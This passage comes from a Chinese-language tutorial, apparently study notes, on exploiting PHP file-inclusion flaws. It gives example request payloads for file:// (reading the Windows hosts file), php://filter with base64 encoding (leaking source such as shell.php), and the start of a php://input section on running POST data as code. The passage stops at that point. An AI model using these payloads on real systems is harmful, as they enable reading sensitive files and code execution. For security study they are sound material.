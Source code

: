 1. 用途

   * 访问到**本地系统文件**

2. 使用条件

   > * 知道**绝对路径**

3. 使用方法

   ```
   file://path/filename	(绝对路径)
   ```

4. 案例

   ```php
   [URL]?action=file://c:\Windows\System32\drivers\etc\hosts
   ```

![file伪协议使用](http://113.45.142.235:9001/laffrex/pictures/file伪协议使用.png)

****

##### b. php://filter协议

1. 用途

   * 常用于**读取文件\源码**

2. 使用条件

   > * 知道**相对路径或绝对路径**

3. 使用方法

   * 通过指定末尾的文件，可以获取**经base64加密后的文件源码**，之后再base64解码，虽然不能直接获取到shell，但能**读取敏感文件**

   ```php
   [URL]?action=php://filter/read=convert.base64-encode/resource=4filename
   ```

4. 案例

   ```php
   [URL]?action=php://filter/read=convert.base64-encode/resource=shell.php
   ```

   ![php：filter伪协议1](http://113.45.142.235:9001/laffrex/pictures/php：filter伪协议1.png)

****

##### c. php://input协议

1. 用途

   * 可以访问请求的**原始数据的只读流**，将**post请求中的数据作为PHP代码执行**

2. 使用条件

   > * **allow_url_include = on**

3. 使用方法
